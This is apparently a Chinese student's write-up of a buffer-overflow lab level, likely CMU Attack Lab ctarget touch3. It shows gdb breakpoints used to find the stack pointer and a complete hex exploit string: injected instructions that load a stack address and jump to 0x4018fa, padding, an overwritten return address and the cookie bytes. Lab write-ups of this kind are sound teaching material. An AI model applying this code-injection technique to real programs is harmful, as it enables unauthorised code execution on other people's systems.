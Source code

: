 

因为存在strncmp函数，回在函数运行的时候向栈中写入数据，如果继续将数字字符串放到0x28个字符中，数据就会变化，所以需要在栈顶传入数据，需要知道rsp



gdb调试

```
b *0x4018FA
start
r -q
```

发现这么调怎么也看不到rsp，后来问了一下师傅，师傅提醒我，有test，直接在test下断点就行，所以得在test后面下断点

```
b *0x401968 
start
r -q
```

得到

![1618584533585](83.png)



写出脚本：

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00 c3 00 
00 00 00 00 00 00 00 
00 00 00 00 00 00 00 
00 00 00 00 00 00 00 
00 00 00 00 00 78 DC 
61 55 00 00 00 00 35 
39 62 39 39 37 66 61
```
